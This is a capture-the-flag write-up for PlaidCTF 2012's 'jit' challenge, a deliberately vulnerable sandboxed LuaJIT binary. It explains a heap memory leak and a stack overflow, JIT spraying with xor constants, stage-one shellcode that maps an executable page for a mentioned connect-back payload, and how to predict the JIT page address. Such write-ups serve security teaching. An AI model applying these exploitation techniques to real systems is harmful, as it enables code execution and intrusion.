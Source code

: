 ```yaml
---
title: jit source and writeup
authors:
  - ricky
layout: post
categories:
  - Pwn
ctf: PlaidCTF
year: 2012
---
```

This is the third of a series of posts where we’ll give our solutions (as well as source code) for some problems from Plaid CTF 2012.

## Source code

* [jit.c][1]
* [sandbox.lua][2] </ul>

## Overview

jit was a 64-bit C binary (PIE) running under xinetd on a Debian machine with NX and ASLR enabled. The machine that this was running on had /bin/sh chmodded 700 (otherwise, certain unfortunate 64-bit libc gadgets made this too easily solvable).

<!--more-->

The program basically reads in a lua script, closes stdin, then runs it inside a restricted lua environment with only selected functions available.

## Vulnerabilities

Since the main goal of this problem was to get people to place shellcode on the JIT page, the vulnerabilities were a little bit obvious and contrived. In addition to a restricted list of standard lua functions, two C functions frob and fry were added to the environment.

Here is an excerpt of the frob function:

```
buf = malloc(len);
...
strncpy(buf, arg, len);
memfrob(buf, len);
lua_pushstring(L, buf);
```

This can be used to leak some memory off of the heap.

The fry function calls a dofry function which looks like this:

```
// Only called it len &lt; 32
void dofry(lua_State *L, const char *s, size_t len) {
    char buf[8];

    strncpy(buf, s, len);
    buf[sizeof(buf)-1] = '\0';
    strfry(buf);
    lua_pushstring(L, buf);
}
```

which contains a pretty obvious stack buffer overflow (with just enough bytes to overwrite the return address).

## Exploitation

To exploit these vulnerabilities, we need to have our script place shellcode on the JIT page, find the address where this shellcode is located, then use the buffer overflow to set %rip to the address of the shellcode on the JIT page.

### Getting shellcode on the JIT page

Unfortunately, luajit does some optimizations which made it difficult to use standard arithmetic operators to get contants on the JIT page. However, after some experimentation, I found that bit.bxor could be used to get 4 byte constants on the JIT page. In order to make sure that the code got jitted, I placed the xors inside of a loop with 4096 iterations:

```
for i = 1, 4096 do
x = b + bit.bxor(x, 0x41414141)
x = b + bit.bxor(x, 0x42424242)
x = b + bit.bxor(x, 0x43434343)
...
end
```

This causes code like the following to show up on the JIT page:

```
fe63:   81 f2 41 41 41 41       xor    $0x41414141,%edx
fe69:   03 d1                   add    %ecx,%edx
fe6b:   81 f2 42 42 42 42       xor    $0x42424242,%edx
fe71:   03 d1                   add    %ecx,%edx
fe73:   81 f2 43 43 43 43       xor    $0x43434343,%edx
fe79:   03 d1                   add    %ecx,%edx
```
In order to get useful shellcode running with this, we need to jump over the `add %ecx,%edx` and the beginning of the xor instruction to end up in our constant again. To do this, we make each of constants something of the form 0x04ebXXXX. The `eb 04` jumps 4 bytes past the end of the jump instruction, which skips over the `add %ecx,%edx` and the beginning of the xor instruction, and lands us at the constant we used for the next xor instruction. This means that for each constant that we xor, we get 2 bytes in which to put instructions for our shellcode.

The shellcode that I ended up using looks something like this:

```
0:   6a 00                   pushq  $0x0
2:   6a 00                   pushq  $0x0
4:   5f                      pop    %rdi
5:   58                      pop    %rax
6:   b4 10                   mov    $0x10,%ah
8:   50                      push   %rax
9:   5e                      pop    %rsi
a:   6a 07                   pushq  $0x7
c:   5a                      pop    %rdx
d:   6a 22                   pushq  $0x22
f:   41 5a                   pop    %r10
11:   6a ff                   pushq  $0xffffffffffffffff
13:   41 58                   pop    %r8
15:   6a 00                   pushq  $0x0
17:   41 59                   pop    %r9
19:   6a 09                   pushq  $0x9
1b:   58                      pop    %rax
1c:   0f 05                   syscall # mmap(NULL, 4096, 7, 0x22, -1, 0)
1e:   50                      push   %rax
1f:   5f                      pop    %rdi
20:   59                      pop    %rcx # pop values off the stack until we get to the 2nd argument of dofry
21:   59                      pop    %rcx
22:   59                      pop    %rcx
23:   59                      pop    %rcx
24:   b3 20                   mov    $0x20,%bl
26:   00 d9                   add    %bl,%cl # add 32 to the 2nd argument of dofry (this is where we put our connect back shellcode)
28:   51                      push   %rcx
29:   5e                      pop    %rsi
2a:   6a 00                   pushq  $0x0
2c:   59                      pop    %rcx
2d:   b1 ff                   mov    $0xff,%cl
2f:   f3 a4                   rep movsb %ds:(%rsi),%es:(%rdi) # copy 255 bytes of the shellcode onto our RWX page
31:   ff e0                   jmpq   *%rax
```

Since every instruction is at most 2 bytes long, we can put them all on the JIT page using our 4 byte constants. This shellcode mmaps an RWX page, copies some code to it, then jumps to it. Keeping in mind that this will executed via the fry buffer overflow, the shellcode copies more shellcode from the 2nd argument to dofry, which is a string we control.

### Finding the JIT page

Using the memory disclosure in the frob function, we can leak a libc address. However, getting from that to a JIT page address requires a little bit of code reading.

In order to keep the jit page within relative jump range from the libluajit code, libluajit places JIT pages at a location relative to the location of libluajit. The code (in lj_mcode.c) looks something like this (hint is the address passed to mmap):

```
/* Get memory within relative jump distance of our code in 64 bit mode. */
static void *mcode_alloc(jit_State *J, size_t sz)
{
  ...
  uintptr_t target = (uintptr_t)(void *)lj_vm_exit_handler &#038; ~(uintptr_t)0xffff;
  ...
  const uintptr_t range = (1u &lt;&lt; LJ_TARGET_JUMPRANGE) - (1u &lt;&lt; 21);
  ...
    /* Next try probing pseudo-random addresses. */
    do {
      hint = (0x78fb ^ LJ_PRNG_BITS(J, 15)) &lt;&lt; 16;  /* 64K aligned. */
    } while (!(hint + sz &lt; range));
    hint = target + hint - (range>>1);
  ...
}
```

The call to `LJ_PRNG_BITS` looks a little scary, but it turns out the PRNG state is always initialized to 0, so it is fully predictable. It turns out that on our system, this loop terminates after 1 iteration (and `LJ_PRNG_BITS` returns 0), so we can calculate the location of the JIT page by:

```
jitpage_addr = target_addr + 0x78fb0000 - 0x3ff00000
```

where `target_addr` is `lj_vm_exit_handler & ~0xffff`. Since the distance between libc and libluajit is constant, we can use our libc address leak to determine exactly where the JIT page will be located.

### Putting it together

Now we have shellcode on the JIT page, and we can calculate where it is. We can also control %rip using the fry buffer overflow, so all we need to do is combine all of this into a lua program that performs the exploit. Here is our exploit for this problem: [exploit.lua][3].

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/jit.c
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/sandbox.lua_.txt
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/exploit.lua_.txt